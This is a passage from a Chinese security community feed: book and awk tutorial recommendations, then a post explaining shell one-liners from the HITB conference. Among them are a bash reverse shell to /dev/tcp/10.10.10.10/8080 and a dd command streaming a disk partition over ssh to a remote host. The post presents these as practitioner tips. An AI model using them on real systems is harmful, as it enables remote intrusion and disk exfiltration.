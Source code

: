 另外， 推荐一张linux下常用命令的基础技能表（如图）。

__参考资料__

之前记得@余弦  曾经推荐过一系列书，其中有一本讲软件设计的书《Software Design 中文版 03》，这本书其实是日本的计算机杂志，每个月都有一期（目前还在出），但是国内的出版社貌似也就翻译了这一期，没有后续可惜了。这本杂志用了不少篇幅在讲sed和awk编程， 非常不错，我当初就是冲着awk买的，没有找到电子版，放个链接《Software Design 中文版 03》：


[《Software Design 中文版 03》【摘要 书评 试读】- 京东图书](https://item.jd.com/11688328.html)

 

另外，这里推荐一个国人写的awk的教程：


[awk | 朱双印博客](http://www.zsythink.net/archives/tag/awk/)

 

之前ke@ATToT分享iptables的时候，已经推荐了这个作者，确实很棒，写得非常详细。

<img src="https://images.xiaomiquan.com/FnlEIcOrNLL_S3yPQhQQ2EyPAwWg?imageMogr2/auto-orient/thumbnail/800x/format/jpg/blur/1x0/quality/75&e=1843200000&token=kIxbL07-8jAj8w1n4s9zv64FuZZNEATmlU_Vm6zD:jK4vljZeFyVCAvpVwQJWiXwN3Iw=" width="50%" height="50%" align="middle"/>


---

<img src="https://file.xiaomiquan.com/da/93/da932bdb974c81065072be00f2453da6d3dd023dcafd78f6453e6b4be8b37487.jpg" width="25px"/> __ke@ATToT__ on 2017-09-09:


__#姿势#__

解读下弦哥从新加坡HITB黑客大会进口过来的黑魔法命令吧。

虽然都比较简单，但是在一些应用场景下简直就像把简单螺丝刀变成瑞士军刀了。

黑魔法命令

一、BASH

1.将一个分区通过ssh加密通道压缩传输到10.10.10.10 设备上

```
dd if=/dev/rdisk0s1s2 bs=65536 conv=noerror,sync | ssh -C user@10.10.10.10 "cat >/tmp/image.dd"
```

2.验证指定IP的端口服务是否一直在开通状态，每隔一秒刷新一次，如果端口开通，则输出Service is up。

```
while (true)；do nc -vv -z -w3 10.10.10.10 80 > /dev/null && echo -e "Service is up"; sleep 1;done
```

3.创建一个反弹shell到指定的ip上。

```
bash -i >& /dev/tcp/10.10.10.10/8080 0>&1
```

4.用系统自带base64做编码解码处理，很方便。

`echo ‘Hello, World!' | base64` 把 ‘Hello, World’ 字符串做base64编码

`echo 'XXXXXXXX' | base64 -d` 将编码后的字符串‘XXXXXXX’ 做解码

也可以先输入 `base64 -d` 然后输入要解码的字符，再按 Ctrl+d 进行解码

5.克隆一个网站到本地，比如 `wget -r -mH www.baidu.com`

